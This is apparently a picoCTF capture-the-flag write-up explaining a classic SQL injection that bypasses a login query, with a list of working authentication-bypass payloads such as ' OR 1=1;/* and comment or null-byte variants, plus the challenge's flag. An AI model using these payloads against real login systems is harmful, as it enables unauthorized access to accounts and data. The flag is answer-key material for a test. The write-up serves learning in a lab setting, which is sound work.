


This task involves the use of classic SQL injection.

---

The web application expects a normal request of type:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


We need:

* close the name field: `name=' '`
* add a condition that will always return `true`
* truncate the rest of the query 

The last condition can be done by inserting a comment symbol or end of query symbol:


```sql
comments in SQL (worked with this task):
#
--
/* */ (open close)
;%00	Nullbyte

end of query:
;
```


Therefore, according to these rules, we will form a simple injection:


```sql
' OR 1=1;/*
```





I experimented with queries, tried to compose my own injections, and tried several options from [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). List of injections that also worked:

> [!TIP]
> I wrote a note to SQLi while solving this task, I left it here: [*click*](../../notes/Understanding%20SQL%20Injections.md)

```
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1;                # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /*    # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00              # every int/float/double number passes
33' OR 1=1 -- 
```


Make sure there is an odd number of brackets in the payload


```sql
SQL query: SELECT * FROM users WHERE name='''' OR 1=1;' AND password='123123'
```


`picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`
